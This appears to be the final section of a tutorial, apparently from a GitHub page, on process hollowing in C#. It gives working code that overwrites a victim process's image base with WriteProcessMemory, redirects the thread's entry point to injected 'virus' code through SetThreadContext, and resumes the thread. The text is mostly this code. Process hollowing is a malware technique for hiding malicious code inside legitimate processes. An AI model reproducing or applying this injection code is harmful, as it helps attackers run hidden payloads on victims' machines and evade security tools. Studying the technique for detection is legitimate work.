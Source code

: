 # Update our ThreadContext and Resume

We need to update our ThreadContext's `ImageBase` and `EntryPoint`.

```cs
 
 byte[] bImageBase = BitConverter.GetBytes((long)virusImageBase);
 if (!PInvoke.WriteProcessMemory(victimProcessHandle, (IntPtr)victimImageBaseAddress, bImageBase, 0x8, out _))
 {
     Console.WriteLine("Rewriting image base failed...");
     return;
 }
 
 int virusEntryPointRVA = Marshal.ReadInt32(virusFilePointer, virusElfanew + 0x28);
 victimThreadContext.Rcx = (ulong)allocatedNewRegionForVirus +  (ulong)virusEntryPointRVA;
 Marshal.StructureToPtr(victimThreadContext, pVictimThreadContext, true);

 PInvoke.SetThreadContext(victimThreadHandle, pVictimThreadContext);
 
```

# Resume Thread

Finally, we resume the thread.

```cs
PInvoke.ResumeThread(victimThreadHandle);
```

Process Hollowing Complete.
